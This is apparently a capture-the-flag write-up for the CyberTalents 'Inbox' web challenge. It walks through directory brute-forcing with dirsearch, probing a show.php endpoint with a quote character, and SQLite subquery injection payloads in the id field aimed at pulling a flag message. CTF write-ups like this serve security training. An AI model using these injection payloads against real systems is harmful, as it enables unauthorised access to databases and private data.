



# Solve Inbox
#### https://cybertalents.com/challenges/web/Inbox


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

We found /data



### Analyze with burp
The request to view an email is sent to `show.php`

```http
POST /show.php HTTP/1.1
Host: wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 8
Origin: http://wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com/
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0; PHPSESSID=a010hdbo5dll4mmqpvn6sj3bo5

id=21658
```
The response as json
```json
{"title":"Hi","msg":"Curabitur massa lacus, dapibus vel quam facilisis, tristique convallis metus. Integer euismod pulvinar aliquam."}
```
Try to cause error with `'` in the id parameter

We got error `Error : HY000 1` which is Encountering SQLite

### SQLI
We could in Injected only with Subqueries beacuse our input reflected in a main query

Try to dump the database tables but I get null.

Try id table:

`id=(select+id+from+sqlite_master+where+Title="Hi")`


Search for a message with title flag
`id=(select+id+from+sqlite_master+where+Title="flag")`


### Resources
[SQLite cheet sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

>Find More on ==> github.com/MedhatHassan 
